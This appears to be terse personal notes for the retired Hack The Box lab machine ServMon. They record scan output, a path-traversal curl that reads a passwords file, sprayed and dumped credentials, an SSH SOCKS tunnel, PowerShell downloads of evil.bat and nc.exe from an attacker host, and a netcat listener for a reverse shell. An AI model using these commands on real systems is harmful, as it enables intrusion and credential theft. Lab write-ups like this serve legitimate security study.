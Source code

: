 ```yaml
---
tags:
  - HTB
  - Retired
  - Windows
  - nagios
  - proxychains
creation date: 2018-09-29
Date Completed: 2024-08-24
CVEs: CVE-2019-20085
URL: 
IP: 10.129.227.77
New Tools: rlwrap
---
```

## Information Gathering


```
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  napster?
8443/tcp  open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     iday
|_    :Saturday
| http-title: NSClient++
|_Requested resource was /index.html
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

```
ftp anonymous@$IP
```
discover users and files with hints

https://github.com/daffainfo/my-nuclei-templates/blob/main/CVE-2019-20085.yaml

```
curl http://10.129.227.77/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FNathan%2FDesktop%2FPasswords.txt -o passwords.txt
```

password spray to get:
nadine
L1k3B1gBut7s@W0rk
ssh -D 9050 nadine@10.129.63.164


```
C:\Program Files\NSClient++> nscp web -- password --display
```
ew2x6SsGTxjRwXOT

https://www.exploit-db.com/exploits/46802


To access website through proxychains4
add line to proxychains4.conf
    socks5 127.0.0.1 9050
Add socks proxy to foxyproxy
    Type: SOCKS5    Hostname: 127.0.0.1 Port: 9050
    
Browse to website
    https://127.0.0.1:8443
    
        
```
iwr http://10.10.15.64:8000/evil.bat -outfile evil.bat 
iwr http://10.10.15.64:8000/nc.exe -outfile nc.exe
```

Follow the exploit and restart the service using the web interface (Control > Restart)

https://0xdf.gitlab.io/2020/06/20/htb-servmon.html#priv-nadine--system


```
rlwrap nc -lnvp 1234
```




